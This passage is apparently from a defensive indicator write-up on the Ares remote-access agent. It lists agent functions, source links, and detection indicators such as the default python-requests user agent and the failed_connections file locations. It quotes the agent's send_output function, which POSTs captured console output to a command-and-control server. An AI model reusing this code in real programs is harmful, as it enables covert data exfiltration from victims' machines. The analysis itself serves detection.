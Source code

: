   - The request is sent with the default `USER-AGENT` of the `requests` package: `python-requests/(Version)`

### send_output

- Description: Send data back to the C2
- Source Reference:
  - https://github.com/sweetsoftware/Ares/blob/master/agent/agent.py#L96
- Indicators:
  - Send `POST` request to the C2 with the following URL: `http(s)://[SERVER_IP]/api/USERNAME_[UUID]/report`

    ```python
    def send_output(self, output, newlines=True):
        """ Send console output to server """
        if self.silent:
            self.log(output)
            return
        if not output:
            return
        if newlines:
            output += "\n\n"
        req = requests.post(config.SERVER + '/api/' + self.uid + '/report', 
        data={'output': output})
    ```

  - The request is sent with the default `USER-AGENT` of the `requests` package: `python-requests/(Version)`

### update_consecutive_failed_connections

- Description: Logs the number of "failed" connections or exceptions within the main loop
- Source Reference:
  - https://github.com/sweetsoftware/Ares/blob/master/agent/agent.py#L73
- Indicators:
  - WINDOWS:
    - Create the `failed_connections` inside the `%USERPROFILE%\ares` directory
  - LINUX:
    - Create the `failed_connections` inside the `~/ares` directory
